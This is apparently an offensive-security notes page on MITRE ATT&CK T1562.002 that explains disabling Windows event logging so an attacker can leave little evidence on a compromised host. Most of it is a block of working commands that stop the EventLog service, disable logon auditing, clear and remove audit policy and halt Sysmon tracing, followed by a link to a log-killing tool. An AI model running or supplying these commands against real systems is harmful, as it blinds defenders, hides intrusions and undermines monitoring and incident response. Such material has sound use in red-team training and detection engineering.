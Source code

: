 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.002
---
```


# Disable Windows Event Logging

Disabling Windows event logging allows for an attacker to operate on a compromised host while leaving minimal evidence behind.&#x20;

### Methods

```powershell
# Disable the EventLog service with PowerShell:
Stop-Service -Name EventLog

# Disable auditing for the Account Logon category:
auditpol /set /category:"Account Logon" /success:disable /failure:disable

# Clear the audit policy
auditpol /clear /y
auditpol /remove /allusers

# Disable Sysmon
## https://twitter.com/_batsec_/status/1327386867365457920?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
logman stop EventLog-Microsoft-Windows-Sysmon-Operational -ets
```

### Tools

{% embed url="https://github.com/hlldz/Phant0m" %}

### References

{% embed url="https://attack.mitre.org/techniques/T1562/002/" %}
